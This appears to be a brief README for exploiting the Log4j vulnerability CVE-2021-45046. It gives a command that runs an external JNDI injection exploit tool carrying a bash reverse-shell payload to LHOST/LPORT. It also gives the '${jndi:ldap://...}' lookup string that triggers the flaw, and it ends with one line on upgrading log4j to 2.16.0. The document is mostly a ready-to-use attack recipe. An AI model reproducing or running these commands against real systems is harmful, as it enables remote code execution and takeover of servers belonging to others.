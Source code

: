 
# CVE-2021-45046
https://github.com/welk1n/JNDI-Injection-Exploit
```bash
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C 'bash -i >& /dev/tcp/LHOST/LPORT 0>&1'
```

```
${jndi:ldap://LHOST:1389/z4e1ks}
```

Way to mitigate the issue is to update the version of your Apache log4j library to `2.16.0`

